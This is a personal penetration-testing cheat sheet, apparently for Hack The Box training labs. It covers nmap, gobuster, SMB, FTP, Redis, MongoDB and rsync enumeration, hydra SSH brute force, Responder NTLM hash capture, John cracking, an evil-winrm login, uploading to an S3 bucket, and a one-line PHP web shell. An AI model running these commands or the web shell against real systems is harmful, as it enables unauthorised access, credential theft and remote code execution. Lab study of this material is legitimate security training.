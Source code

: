 # cheatsheet

## Dictionary
* wordlists
  ```sudo apt install wordlists```
* seclists
  ```sudo apt install seclists```
  * dir: /usr/share/seclists/Discovery/Web-Content/common.txt
  * sub-domain: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
* common weak credential pair
  ```https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown```
 
## Tools
* wappalyzer(extension)
* hydra, usernames.txt one row one username
  ```hydra -L usernames.txt -p '{PASSWORD}' {target_IP} ssh```
* SSH Tunnel
  ```ssh -L 1234:localhost:22 {USER}@{IP}
* Network traffic and process name
  ```ss -tl```

## Nmap
  ```shell
  sudo nmap -sV {IP}
  ```
  * if -sV not always enough, try -sC to run safe script for more version info.
  ```shell
  sudo nmap -sC {IP}
  ```
  
  ```shell
  sudo nmap -sT 10.129.107.120 -top-ports 1000 -d
  ```

  * all ports range, or specific ports, min-rate specific min send packets per sec.
  ```shell
  sudo nmap -p- --min-rate=1000 -sV {IP}
  ```

  * More information
  ```sudo nmap -sV -sC -v {IP}```

## Telnet
  ```shell
  telnet open {IP}
  ```

## FTP
* Press Entry button if password is null
  ```shell
  ftp anonymous@{IP}
  ```

## SMB
```shell
smbclient -L {IP}
```
```shell
smbclient \\\\{IP}\\{DIR}
```
### NTLM Challange/Responder
* Use tool: Responder, acting a authentication server to collect hash string where target machine send to.
```shell
git clone https://github.com/lgandx/Responder
sudo python3 Responder.py -I tun0
w3m http://unika.htb/index.php?page=//{LOCAL IP}/somefile
```
* Wordlists at /usr/share/wordlists
```shell
sudo apt install wordlists
```
* John, which is a brute force pwd cracking tool
* use wordlists referred above and hash.txt which generated by Responder
```shell
john -w=/usr/share/wordlists/rockyou.txt.gz hash.txt
```


## Redis
* see all info
```shell
info
```
* see server info
```shell
info server
```
```shell
select {db}
```
```shell
keys *
```
```shell
dbsize
```

## RDP
### GUI RDP
```shell
xfreerdp3 /v:{HOST} /u:{USERNAME}
```
### SHELL RDP
```shell
evil-winrm  -i 10.129.95.234 -u administrator -p badminton
```

## GoBuster
* dir
```shell
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt
gobuster dir -u 10.129.70.58 -w wordlist.txt
```
* sub-domain/vhost
```shell
gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

* binding host
```shell
echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts
```

## MongoDB
```shell
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
```
```shell
./mongosh mongodb://{IP}:{PORT}
show dbs;
show tables;
db.{TALBENAME}.find().pretty()
```

## Rsync
* default port 873
```shell
rsync --list-only {IP}::public
```
```shell
rsync {IP}::public/flag.txt flag.txt
```

## Kali RDP
```shell
#!/bin/bash
sudo apt -y update
sudo apt -y install kali-desktop-xfce xrdp
sudo systemctl enable xrdp
sudo systemctl restart xrdp
# setting the password for the kali user so you can login to the desktop. 
# Reset this once you have logged in.
echo 'kali:kali' | sudo chpasswd    
```

## AWS
* awscli
  ```shell
  sudo apt install awscli
  aws configure
  aws --endpoint=http://s3.thetoppers.htb s3 ls    #SHOW bucket name
  aws --endpoint=http://s3.thetoppers.htb s3 ls s3://{BUCKET NAME}
  aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
  ```

## Injection
### PHP
  ```echo '<?php system($_GET["cmd"]); ?>' > shell.php```
